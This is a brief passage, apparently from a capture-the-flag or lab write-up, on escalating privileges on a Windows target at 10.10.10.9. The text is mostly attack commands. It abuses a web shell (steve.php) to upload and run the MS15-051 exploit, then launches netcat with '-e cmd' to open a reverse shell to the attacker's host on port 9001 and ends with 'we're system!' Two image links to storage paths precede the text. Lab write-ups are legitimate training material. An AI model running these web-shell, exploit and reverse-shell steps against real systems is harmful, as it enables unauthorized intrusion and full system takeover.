


MS15-051
Lets use MS15-051

lets upload MS15-051 from our working directory and run netcat to call back to us with root permissions
10.10.10.9/steve.php?fupload=ms15-051.exe&fexec=ms15-051.exe whoami

10.10.10.9/steve.php?fupload=ms15-051.exe&fexec=ms15-051.exe “nc64.exe -e cmd 10.10.14.62 9001"



and we're system!